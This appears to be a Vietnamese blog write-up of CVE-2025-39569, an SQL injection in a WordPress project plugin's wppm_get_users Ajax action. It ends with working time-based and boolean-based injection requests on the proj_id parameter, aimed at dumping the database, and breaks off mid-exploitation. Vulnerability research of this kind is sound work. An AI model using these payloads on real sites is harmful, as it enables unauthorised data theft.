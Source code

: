 - `add_action()` là một **Plugin API** của WordPress, cho phép gắn một **callback** vào một **action hook**.
- `wp_ajax_wppm_get_users` là tên hook Ajax, với quy tắc đặt tên:
    - `wp_ajax_{action}` => Xử lý Ajax khi user đã đăng nhập.
    - `wp_ajax_nopriv_{action}` => Xử lý Ajax khi user chưa đăng nhập.
- Ở đây, `action = wppm_get_users`. Nghĩa là nếu trong Ajax request bạn gửi `action=wppm_get_users` tới `admin-ajax.php`, thì WordPress sẽ **tìm callback tương ứng để xử lý**, ở đây là `wppm_get_users()`.

👉 Ta đã biết được `action = wppm_get_users`, kiểm tra xem Ajax nào sử dụng action này bằng cách tìm từ khóa `wppm_get_users` trên các file **.js** trong thư mục chứa plugin.

![ajax search](assets/img/posts/2025-08-31-CVE-2025-39569/ajax_search.png)

Action `wppm_get_users` là phần data trong request POST của hàm `wppm_get_users()`

Hàm `wppm_get_users()` sẽ được đặt trong HTML attribute của **chức năng project**
- Tạo project mới
- Truy cập vào project đó
- Inspect code và tìm hàm `wppm_get_users` sẽ được đặt ở đâu, hành động nào sẽ gọi nó

![ajax inspect](assets/img/posts/2025-08-31-CVE-2025-39569/ajax_inspect.png)

👉 Khi click vào **icon bên cạnh Users** ajax sẽ hoạt động, gửi request đến server, lấy danh sách các user tham gia project và mã HTML hiển thị nó.

![model_display](assets/img/posts/2025-08-31-CVE-2025-39569/model_display.png)

## Exploit
### Detect SQLi

Bắt request bằng BurpSuite, gửi request với SQLi payload **time base**

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```

![sqli_success](assets/img/posts/2025-08-31-CVE-2025-39569/sqli_success.png)

Thời gian phản hồi bị delay => SQL Injection thành công.

### Get First Letter of Database Name
Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì toàn bộ data đều dump được.

Gửi request với SQLi payload **boolean base** vói `proj_id` đúng:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,4,999))
```
